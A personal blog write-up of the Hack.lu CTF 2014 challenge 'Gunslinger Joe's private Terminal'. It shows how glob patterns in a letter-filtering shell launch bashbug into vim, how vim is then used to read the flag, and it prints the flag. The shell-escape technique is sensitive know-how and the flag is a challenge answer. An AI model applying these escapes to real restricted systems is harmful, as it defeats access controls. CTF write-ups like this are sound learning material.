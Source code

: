 =============================================================
 Hack.lu CTF 2014: Gunslinger Joe’s private Terminal Writeup
=============================================================

:date: 2014-10-21 16:57
:modified: 2015-01-25 15:41
:tags: ctf, writeup, hacklu
:category: memo
:slug: gunslinger-joes-private-terminal-writeup
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: First time of my life I solved a problem in a real CTF! Though it is a pretty easy one, it means something to me.

Problem Description
===================

In the Hack.lu CTF website, there are some description about "Gunslinger Joe's
private Terminal":

    Gunslinger Joe's private Terminal
    by cutz (Misc)
    50 (+20) Points
    Gunslinger Joe has a pretty bad memory and always forgets the password for his
    private terminals! That's why he always uses his username as password but also
    makes sure that absolutely no one else who knows his name can interact with his
    secure terminal. Wouldn't it be super embarrassing for him to prove him wrong?

    SSH: gunslinger_joe@wildwildweb.fluxfingers.net
    PORT: 1403

According to the description above, Gunslinger Joe's SSH account and password
are both "gunslinger_joe". So let's connect to the SSH server:

.. code-block:: bash

    $ ssh wildwildweb.fluxfingers.net -l gunslinger_joe -p 1403
    gunslinger_joe@wildwildweb.fluxfingers.net's password:

               ,'-',
              :-----:
          (''' , - , ''')
          \   ' .  , `  /
           \  '   ^  ? /
            \ `   -  ,'
             `j_ _,'       Gunslinger Joe's
        ,- -`\ \  /f        Private Terminal
      ,-      \_\/_/'-
     ,                 `,
     ,          Joe      ,
          /\          \
    |    /             \   ',
    ,   f  :           :`,  ,
    <...\  ,           : ,- '
    \,,,,\ ;           : j  '
     \    \            :/^^^^'
      \    \            ; ''':
        \   -,         -`.../
         '    - -,`,--`
          \_._'-- '---:

    $ ls
    $ whoami
    $ ls -l
    : -: command not found

Something weird have just happened... It seems that the shell filtered out all
the alphabetic characters. However, the "FLAG" showed up...

.. code-block:: bash

    $ *
    : ./FLAG: Permission denied

Apparently, the file FLAG does not have a attribute of execution so the shell
told us it cannot execute the file FLAG. Anyway, using asterisk could reveal
some useful information. Then try it under the root directory.

.. code-block:: bash

    $ /*
    : /bin: Is a directory

To conclude, with this kind of input (asterisk), the shell will want to execute
the very first file in the directory specified. So let's see what is the first
executable in the ``/bin``.

.. code-block:: bash

    $ /*/*

Oops! WTF! It seems that the file ``/bin/bashbug`` has been executed. And we
finally got an editor, which is ``vim``.
.. code-block:: text

    From: gunslinger_joe
    To: ../../bin/bunzip2
    Subject: [50 character or so descriptive subject here (for reference)]
     
    Configuration Information [Automatically generated, do not change]:
    Machine: x86_64
    OS: linux-gnu
    Compiler: gcc
    Compilation CFLAGS:  -DPROGRAM='bash' -DCONF_HOSTTYPE='x86_64' -DCONF
    OSTYPE='linux-gnu' -DCONF_MACHTYPE='x86_64-unknown-linux-gnu'
    -DCONF_VENDOR='unknown' -DLOCALEDIR='//share/locale' -DPACKAGE='bash'
    -DSHELL -DHAVE_CONFIG_H   -I.  -I. -I./include -I./lib   -g -O2
    uname output: Linux terminal 3.13.0-37-generic #64-Ubuntu SMP Mon Sep 22
    21:28:38 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
    Machine Type: x86_64-unknown-linux-gnu
     
    Bash Version: 4.3
    Patch Level: 30
    Release Status: release
     
    Description:
            [Detailed description of the problem, suggestion, or complaint.]
     
    Repeat-By:
            [Describe the sequence of events that causes the problem
            to occur.]
     
    Fix:
            [Description of how to fix the problem.  If you don't know a
            fix for the problem, don't include this section.]

Gods be good, we all know that anyone can execute any commands in ``vim`` using
``:! <command>``. So I tried ``:! cat FLAG``. But the system told me there was
no more resources to fork another process to do the work. Where there is a
will, there is a way. Using the tab page feature provided by ``vim`` could do
the work! Because ``vim`` will not spawn a new process to handle the new tab
page.

Flag
====

.. code-block:: text

    flag{joe_thought_youd_suck_at_bash}

